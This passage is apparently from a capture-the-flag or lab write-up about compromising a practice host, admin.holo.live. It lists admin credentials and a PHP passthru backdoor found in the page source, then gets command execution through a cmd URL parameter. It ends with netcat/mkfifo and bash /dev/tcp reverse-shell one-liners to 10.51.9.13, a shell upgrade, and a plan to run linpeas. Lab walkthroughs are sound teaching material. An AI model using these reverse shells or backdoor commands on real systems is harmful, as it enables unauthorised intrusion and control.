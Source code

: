 
```
admin
```

```
DBManagerLogin!
```

So we are in 

![[Pasted image 20240813203006.png]]

And we can see php is there let's see how to get the shell from here 

So i pasted the code that i found in the source code 
```
  <!--                   //if ($_GET['cmd'] === NULL) { echo passthru("cat /tmp/Views.txt"); } else { echo passthru($_GET['cmd']);} -->
```

and found that we have RCE here

```
http://admin.holo.live/dashboard.php?cmd=whoami
```
![[Pasted image 20240813203426.png]]

let's see if we are able to get a reverse shell

So i tried to get the version of python but i don't think it's installed (i.e. check which python)
but than bash came to my mind and it returned (i.e. which bash)
```
admin.holo.live/dashboard.php?cmd=which%20bash
```
![[Pasted image 20240813203747.png]]


After so many try's this one linear working as website got stuck which is an indication we might have got a shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.51.9.13 4242 >/tmp/f
```

```
%2Fbin%2Fbash -i >%26 %2Fdev%2Ftcp%2F10.51.9.13%2F4242 0>%261
```

![[Pasted image 20240813204209.png]]

Let's get the full shell from the dummy shell

```
python3 -c "__import__('pty').spawn('/bin/bash')"
stty -raw echo;fg 
reset.

export TERM=xterm
```

![[Pasted image 20240813204531.png]]

Let's run the linpease and see what we find here
